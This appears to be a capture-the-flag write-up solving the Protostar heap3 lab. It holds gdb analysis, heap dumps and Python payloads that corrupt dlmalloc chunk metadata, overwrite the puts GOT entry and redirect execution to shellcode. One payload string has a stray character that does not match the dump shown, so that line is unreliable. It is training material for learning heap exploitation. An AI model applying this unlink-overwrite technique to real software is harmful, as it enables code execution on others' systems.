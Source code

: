 ### s0lv3d by H4yicl3


link https://exploit-exercises.com/protostar/heap3/


we can't compile it in true way!!
because the file need to compile in dlmalloc by  Doug Lea Malloc before fixed problem
so i try to download it in the vmware running protostar
with the following scp script
```
scp -p22 user@<address_of_protostar_vmware:/opt/protostar/bin/heap3 ./
```

try to read it before exploit the problem :http://phrack.org/issues/57/9.html#article


try to analysis it with gdb
```asm
pdis main
0x0804890a <+129>:   mov    eax,DWORD PTR [esp+0x1c]
b *main+129

```

that is the following code of this bug !!
```c
#define unlink(P, BK, FD)                                                \
{                                                                        \
  BK = P->bk;                                                            \
  FD = P->fd;                                                            \
  FD->bk = BK;                                                           \
  BK->fd = FD;                                                           \
}
```

the pseudo code c 
```
*(next->fd + 12) = next->bk
  *(next->bk + 8) = next->fd
```

it is double link list when free is called ! so we see the code we have 3 free 
so we need exploit here!

the first we need to change size of chunk greater than 80 byte !! because it has just happen when it wasn't fast bins(see more in the link i supply)

then we need create the fake of free chunk !!
so the alogrithm will be baited and heap meta data can be modified to change program execution

we choose argument 2 to overflow the chunk size of chunk3
```
gdb-peda$ x/60wx 0x0804c000 
0x804c000:      0x00000000      0x00000029      0x41414141      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x42424242      0x00000000      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0x43434343      0x00000000

```
the start of argument is 0x42424242 (address =0x804c030)
end is before 0x000000029 =0x804c054
offset =0x54-0x30 = 0x24 = 36 

so we need change it greater than 80 byte and the bit is used set
-> 0x51(bit 1 is make the alogrithm think the chunk is used)


ok !! the python of argument2 look like
```
padding ="A"*0x24
size ="\x51"
print padding+size
```

compile it
```
hayicle@ubuntu:~/ctf/protostar/heap$ python argurment2_for_heap3.py >2
```

try to run it in gdb

```
gdb-peda# r A `cat 2` C
gdb-peda$ x/60wx 0x0804c000 
0x804c000:      0x00000000      0x00000029      0x00000041      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c040:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c050:      0x41414141      0x00000051      0x00000043      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
```

now we get the chunk size is 0x51
so we need to create the fake chunk look like
```
prev_size = even number and hence PREV_INUSE bit is unset.
size = -4
fd = puts_address – 12
bk = shellcode address
```
the puts_got function address
```
hayicle@ubuntu:~/ctf/protostar/heap$ objdump -R heap3_protostar 

heap3_protostar:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
0804b128 R_386_JUMP_SLOT   puts
...
```

we create it in argument3 
```python
puts_address = 0x0804b128
shellcode_address = 0x804c014    #heap segment of argument 1 we try to read shell code in argument 1
padding ="A"*(0x50-8) #subtract the size and prev_size
prev_size = "\xfc\xff\xff\xff" #its end with 0xc =0x1100 so the PREV_INUSE bit is unset
size ="\xfc\xff\xff\xff" # size = -4
fd = "\x1c\xb1\x04\x080" # (puts_address - 12)
bk = "\x14\xc0\x04\x08"  #shellcode_address 
print padding + prev_size + size + fd + bk
```

try to run this in gdb
```
gdb-peda$ x/60wx 0x0804c000 
0x804c000:      0x00000000      0x00000029      0x00000041      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c040:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c050:      0x41414141      0x00000051      0x41414141      0x41414141
0x804c060:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c070:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c080:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c090:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c0a0:      0xfffffffc      0xfffffffc      0x0804b11c      0x0804c014
```

look good !!

address winner
```
gdb-peda$ p winner
$1 = {void (void)} 0x8048864 <winner>
```

so we need to create the shellcode when the puts return after use in argument1
```python
address_of_winner =0x8048864
# asm code
# push 0x8048864
# ret
# try the asm online to create shellcode :https://defuse.ca/online-x86-assembler.htm#disassembly

padding ="A"*12 #start at 0x804c008 but we return at 0x804c014 need subtract = 12
shellcode ="\x68\x64\x88\x04\x08\xC3"
print padding+shellcode
```

try to run this
```asm
gdb-peda$ x/60wx 0x0804c000 
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x41414141      0x04886468      0x0000c308      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c040:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c050:      0x41414141      0x00000051      0x41414141      0x41414141
0x804c060:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c070:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c080:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c090:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c0a0:      0xfffffffc      0xfffffffc      0x0804b11c      0x0804c014
```

look good

```
gdb-peda$ c
Continuing.
that wasn't too bad now, was it? @ 1483333812
[Inferior 1 (process 3654) exited with code 056]
```

try to run it without gdb
```
hayicle@ubuntu:~/ctf/protostar/heap$ ./heap3_protostar `cat 1` `cat 2` `cat 3`
that wasn't too bad now, was it? @ 1483333862
```

g00d luck  ! best fun :))

the material can read to understand more:https://sploitfun.wordpress.com/2015/02/26/heap-overflow-using-unlink/

